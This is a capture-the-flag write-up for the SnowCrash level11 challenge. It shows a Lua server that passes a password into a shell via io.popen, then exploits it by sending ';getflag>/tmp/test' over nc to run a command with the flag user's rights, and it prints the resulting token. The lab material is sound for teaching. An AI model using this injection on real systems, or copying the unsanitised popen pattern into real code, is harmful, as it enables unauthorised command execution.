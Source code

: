 In the user's home directory, we find the code of a Lua server:

```lua
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

We observe that the server is already running when attempting to launch level11.lua, and we can indeed see port 5151 open in TCP:

```
level11@SnowCrash:~$ ss -tunlp
Netid  State      Recv-Q Send-Q     Local Address:Port       Peer Address:Port 
udp    UNCONN     0      0                      *:68                    *:*     
tcp    LISTEN     0      128                   :::4646                 :::*     
tcp    LISTEN     0      128                   :::4747                 :::*     
tcp    LISTEN     0      128                   :::80                   :::*     
tcp    LISTEN     0      128                   :::4242                 :::*     
tcp    LISTEN     0      128                    *:4242                  *:*     
tcp    LISTEN     0      32             127.0.0.1:5151                  *:* 
```

Here, command injection is possible, starting from the variable ..pass.., in order to execute whatever we want through the server, which was launched with the permissions of the user flag11.

Finally, it is sufficient to connect to the server with nc:

```
nc 127.0.0.1 5151
```

Then redirect the output of the getflag command used by the server to a file in /tmp, for example. This results in the following:

```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: ;getflag>/tmp/test
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

Ressources :

- https://seclists.org/fulldisclosure/2014/May/128
- https://mike-boya.github.io/post/exploit-exercises-nebula-level12/
